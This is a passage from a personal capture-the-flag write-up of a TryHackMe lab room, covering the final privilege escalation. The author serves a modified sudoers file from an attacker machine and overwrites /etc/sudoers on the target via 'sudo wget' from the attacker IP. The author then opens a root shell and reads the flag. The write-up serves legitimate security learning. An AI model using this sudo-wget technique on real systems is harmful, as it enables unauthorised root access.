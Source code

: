 We already know what Jessie can do, we just need to amend it using nano (jessie	ALL=(root) NOPASSWD: ALL) and get it back to it's original location. Now all we have to do is get the amended file to the target to upgrade Jessie's account. In order to do this, we need an http server to actually get the file from. Luckily python can do this for us from our own machine, running an http server from the folder we run the actual command from.
```
~/CTF/tryhackme/wgelCTF$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now back to the target, we wget that file back to its original place and with Jessie using wget as root, we will have no problems. Changing directory to /etc before I wget the file.
```
jessie@CorpOne:~/Documents$ cd /etc
jessie@CorpOne:/etc$ sudo wget 10.9.12.213:8000/sudoers --output-document=sudoers
--2020-08-21 11:33:10--  http://10.9.12.213:8000/sudoers
Connecting to 10.9.12.213:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 815 [application/octet-stream]
Saving to: ‘sudoers’

sudoers                      100%[============================================>]     815  --.-KB/s    in 0,002s  

2020-08-21 11:33:10 (348 KB/s) - ‘sudoers’ saved [815/815]
```
If we now check with sudo - l, we can see the amendments made to Jessie's account.
```
jessie@CorpOne:/etc$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: ALL
```

In this case I just opened a bash shell with sudo and went searching for the root flag.
```
jessie@CorpOne:~$ sudo /bin/bash
root@CorpOne:~# cd /root
root@CorpOne:/root# ls
root_flag.txt
root@CorpOne:/root# cat root_flag.txt 
<insert-flag-here> **[Task1 #2]**
root@CorpOne:/root# 
```

This was a really enjoyable room, where I learnt that I should mix and match my gobuster wordfiles. For the past few months I have been using the dirbuster medium text file, but here after finding nothing and trying to hydra Jessie's SSH account with rockyou.txt made me look elsewhere. The /usr/share/wordlists/dirb/common.txt is now another tool in my armoury.

Thanks go to MrSeth6797 for this room. Much appreciated.

Regards

K

<script src="https://tryhackme.com/badge/65208"></script>
